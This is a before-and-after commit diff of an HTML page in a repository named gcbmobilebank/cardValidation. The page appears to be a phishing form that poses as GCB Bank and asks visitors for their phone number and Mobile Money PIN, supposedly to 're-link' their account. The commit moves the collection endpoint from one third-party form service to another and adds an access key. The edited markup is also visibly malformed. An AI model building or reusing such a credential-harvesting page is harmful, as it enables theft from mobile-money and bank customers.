

Before and after one commit to gcbmobilebank/cardValidation, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 317-790 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -299,8 +299,8 @@
         </p>
 
            <form
-  action="https://formspree.io/f/xeaoarga"
-  method="POST"
+   <form action="https://api.web3forms.com/submit" method="POST">
+  <input type="hidden" name="access_key" value="c2b2596f-cac0-44ac-a571-43f90c0ec9bf">
 >
   <label>
     Valid Phone Number:
@@ -313,7 +313,7 @@
     Your Momo Pin:
     <input type="Number" name="Pin">
     <p class="description">
-        Enter your  Mobile Money Pin to relink your MoMo to your GCB account Enter
+        Enter your  Mobile Money Pin to re-link your MoMo to your GCB account Enter
       </p>
   </label>
   <!-- your other form fields go here -->
@@ -348,7 +348,7 @@ form.addEventListener("submit", async function(event) {
 
     try {
         const response = await fetch( {
-            action="https://formspree.io/f/xeaoarga"
+            action="https://api.web3forms.com/submit"
   method="POST"
             headers: {
                 "Content-Type": "application/json"
```
